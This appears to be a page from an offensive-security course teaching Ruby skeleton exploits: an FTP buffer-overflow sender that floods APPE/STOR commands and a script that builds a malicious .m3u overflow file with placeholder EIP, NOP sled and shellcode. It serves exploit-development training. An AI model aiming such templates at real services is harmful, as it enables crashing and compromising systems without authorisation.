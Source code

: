 # Module 0x5 \| Exploitation Kung Fu

## Skeleton exploit

It's really a good thing to have a skeleton exploit to edit and use quickly during your exploitation process.

### Network base

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'

buffer = "A" * 2000

#--> Networking
host = ARGV[0]
port = ARGV[1] || 21

s = TCPSocket.open(host, port)
s.recv(1024)
puts "[+] Sending Username."
s.send("USER ftp\r\n", 0)
s.recv(1024)
puts "[+] Sending Password."
s.send("PASS ftp\r\n", 0)
s.recv(1024)
puts "[+] Sending Evil buffer..."
s.send("APPE " + buffer + "\r\n", 0)
total = s.send("STOR " + buffer + "\r\n", 0)
#--> Exploit Info
puts "[+] " + "Total exploit size: " + "#{total} bytes."
puts "[+] " + " Buffer length: " + "#{buffer.size} bytes."
puts "[+] Done"

s.close
```

To execute it

```text
ruby ftp_exploit.rb [TARGET] [PORT]
```

Notice that some services has to receive from it and some does not.

### File base

Creating a simple exploit file

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI

file = ARGV[0] || "exploit.m3u"

junk  = "A" * 2000
eip   = "B" * 4
nops  = "\x90" * 8
shell = "S" * 368
exploit = junk + eip + nops + shell

File.open(file, 'w') {|f| f.write(exploit)}
puts "[*] Exploit size: #{exploit.size}"
```

To execute it

```text
ruby m3u_exploit.rb song1.m3u
```

